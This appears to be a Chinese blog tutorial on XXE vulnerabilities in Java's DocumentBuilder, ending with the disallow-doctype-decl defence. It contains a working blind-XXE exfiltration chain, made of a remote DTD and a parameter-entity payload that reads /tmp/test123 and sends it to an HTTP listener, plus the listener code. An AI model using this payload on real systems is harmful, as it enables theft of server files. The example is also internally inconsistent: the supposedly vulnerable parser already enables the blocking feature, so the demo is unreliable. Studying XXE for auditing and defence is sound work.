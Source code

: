 java安全之xxe
--

xxe这种漏洞无论是在php中还是java中，审计起来应该都是有迹可循的，在php中全局搜索特定函数，在java中需要找解析xml文档的类有没有被使用，所以，我们首先需要知道java有哪些常见的解析xml的类。

### javax.xml.parsers.DocumentBuilder

这个类导致的xxe漏洞感觉挺多的。微信支付，以及CVE-2017-12629都是由于这个类没有进行安全设置导致的。

用一个例子来学习一下这个类怎么导致xxe

```java
import jdk.internal.org.xml.sax.SAXException;
import org.w3c.dom.Document;
import org.w3c.dom.NodeList;

import javax.xml.parsers.DocumentBuilder;
import javax.xml.parsers.DocumentBuilderFactory;
import javax.xml.parsers.ParserConfigurationException;
import java.io.IOException;

public class ReadxmlByDom {
    private static DocumentBuilderFactory dbFactory = null;
    private static DocumentBuilder db = null;
    private static Document document = null;
    static{
        try {
            dbFactory = DocumentBuilderFactory.newInstance();
            dbFactory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
            db = dbFactory.newDocumentBuilder();
        } catch (ParserConfigurationException e) {
            e.printStackTrace();
        }
    }

    public static void main(String args[]) throws IOException, SAXException, org.xml.sax.SAXException {
        document = db.parse(ReadxmlByDom.class.getResourceAsStream("/request.xml"));
        NodeList nodeList = document.getElementsByTagName("root");
        String nodeValue = nodeList.item(0).getFirstChild().getNodeValue();
        System.out.println(nodeValue);
    }
}
```

request.xml如下：

```xml
<?xml version="1.0"?>
<!DOCTYPE ANY[
        <!ENTITY % remote SYSTEM "http://localhost:8000/attack.xml">
        %remote;
        ]>
<root></root>
```

attack.xml如下：
```xml
<!ENTITY % payload  SYSTEM "file:///tmp/test123">
<!ENTITY % int "<!ENTITY &#37; trick SYSTEM 'http://127.0.0.1:8080/test?name=%payload;'>">
%int;
%trick;
```

上面的代码会读取并解析request.xml这个文件，由于没有进行安全配置，所以导致加载远程文件attack.xml，这个文件中的被解析后就会读取本地的`/tmp/test123`并把内容发送到http://127.0.0.1:8080/。

我在8080端口用spring boot构建了一个接受数据的web应用，代码如下：

```java

import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.RequestMapping;

@Controller
@RequestMapping("/test")
public class TestController {

    @RequestMapping("")
    public String hello(String name) {
        System.out.println(name);
        return "welcome";
    }
}
```

这个应用在接受到数据时，会将数据打印到控制台

![](xxe1/xxe_data.png)

###  防御方法

```java
DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
DocumentBuilder db = dbf.newDocumentBuilder(); 
Document document = db.parse(in);
```

serFeature是关键，设置了过后，再解析xml时会直接报错，如下：

![](xxe1/xxe_defence.png)


### 参考

spring boot 快速创建项目：http://tengj.top/2017/02/26/springboot1/

微信支付xxe:https://benjaminwhx.com/2018/07/05/%E7%94%B1%E5%BE%AE%E4%BF%A1%E6%94%AF%E4%BB%98XXE%E6%BC%8F%E6%B4%9E%E8%B0%88%E8%B0%88%E6%94%BB%E5%87%BB%E5%8E%9F%E7%90%86%E4%BB%A5%E5%8F%8A%E5%A6%82%E4%BD%95%E9%A2%84%E9%98%B2/

java xxe:https://blog.spoock.com/2018/10/23/java-xxe/